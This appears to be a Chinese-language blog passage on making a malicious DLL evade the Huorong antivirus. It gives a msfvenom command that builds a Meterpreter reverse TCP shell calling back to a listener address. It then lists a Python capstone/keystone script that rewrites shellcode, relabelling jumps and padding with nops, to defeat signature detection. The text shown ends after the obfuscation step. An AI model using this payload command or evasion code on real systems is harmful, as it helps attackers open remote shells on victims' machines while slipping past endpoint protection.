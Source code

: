 360是不会查杀dll的，但是过不了火绒，这时候就需要免杀了
##### dll免杀过火绒
免杀方法：python变形shellcode+汇编代码
之前20年搞的免杀现在还可以用。。。项目：[https://github.com/H4xl0r/shellcodeseperator](https://github.com/H4xl0r/shellcodeseperator)
首先`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.111.128 LPORT=6666 -f c -o payload.c`
生成我们的payload，然后放入python代码中
```python
from capstone import *
from keystone import *

def assemble(code):
    try:
        ks = Ks(KS_ARCH_X86, KS_MODE_32)
        encoding, count = ks.asm(code)
        return [hex(i) for i in encoding]
    except KsError as e:
        print(e)
        return -1
def byteoffset2index(offset):
    temp=offset
    a=0
    for i in md.disasm(CODE, 0x0):
        temp-=len(i.bytes)
        a+=1
        if temp==0:
            return a
if __name__ == "__main__":
    md = Cs(CS_ARCH_X86, CS_MODE_32)
    controlflow=["jmp","jz","jnz","je","jne","call","jl","ja","loop","jecxz","jle","jge","jg","jp","jnl"]
    registers=["eax","ebx","edx","ebp","esp","edi","esi"]
    # shellcode
    CODE = b"";
    asm=";".join([i.mnemonic+" "+i.op_str for i in md.disasm(CODE, 0x0)])
    asmarray=asm.split(";")
    length=len(asmarray)
    tags=[]
    for i in range(0,len(asmarray)):
        for mnemonic in controlflow:
            if (mnemonic in asmarray[i]):
                tags.append(i)
    mask=[]
    for i in range(0,len(tags)):
        for reg in registers:
            if (reg in asmarray[tags[i]]):
                mask.append(tags[i])
    [tags.remove(i) for i in mask]
    tagins=[asmarray[i]  for i in tags]
    revision=[]
    for i in range(0,len(tagins)):
        b=tagins[i][tagins[i].index("0x"):]
        n=byteoffset2index(int(b,16))
        revision.append(n)
    revision_unique=list(set(revision))
    for i in range(0,len(revision_unique)):
        asmarray[revision_unique[i]]="a"+str(revision_unique[i])+": "+asmarray[revision_unique[i]]
    tagins=[asmarray[i]  for i in tags]
    for i in range(0,len(tags)):
        asmarray[tags[i]]=tagins[i][:tagins[i].index("0x")]+"a"+str(revision[i])
    obfuscation="nop"
    code=obfuscation+";"+(";"+obfuscation+";").join(asmarray)
```